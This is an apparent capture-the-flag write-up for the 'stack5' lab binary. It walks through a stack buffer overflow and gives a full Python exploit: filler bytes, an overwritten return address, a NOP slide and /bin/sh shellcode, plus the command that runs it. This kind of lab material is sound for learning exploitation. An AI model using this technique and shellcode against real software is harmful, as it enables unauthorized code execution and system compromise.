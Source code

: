 <h2>Goal</h2>
Create overflow, overwrite $EIP, insert shellcode. 

First find `$EIP` location so we know how far to overflow.

Break at `RET`. (break *main+22) Get `$ESP` value at this point using `info registers`.

Determine what is `$EIP` with same strategy as stack 4. 

Break at `RET`, single step, check `$EIP` value. Go back to break at leave (break *main+22) and print out the value of the stack in search of the value of `RET`.

What happens is, the stack is now AT the `$EIP` value that `RET` returns too.  So you over write the `$EIP` that `RET` returns too with its own address. 

I determine `$EIP` = `0xbffff7ac`

Often the address needs to be a bit after itself due to accuracy issues, this is why the NOP slide is used. Our payload will look like:


A's are used to fill the buffer, then the memory address of `$EIP`, NOP slide, then the shellcode.

```
 "A"*76 +  `0xbffff7ac` + NOPS + shellcode.
 ```

After EIP you write the code you want to run (shellcode). This often requires NOP slides though due to accuracy issues. Obtain shellcode from online. shell-storm website is good. 
I used this simple shellcode:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`


Make python file for creating exploits. Makes for easy editing.

<h2>Solution</h2>
python script in /tmp/gen

```
import struct
jam="A"*76
addr=struct.pack("I", 0xbffff7ac+20)
nops="\x90"*50
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
payload= jam+ addr + nops + shellcode

print payload
```

Run it using the following:
`(python /tmp/gen ; cat) | ./stack5`

Sometimes 0xbffff7ac + 10 or +20 or +30 needed if 'illegal operation' error.
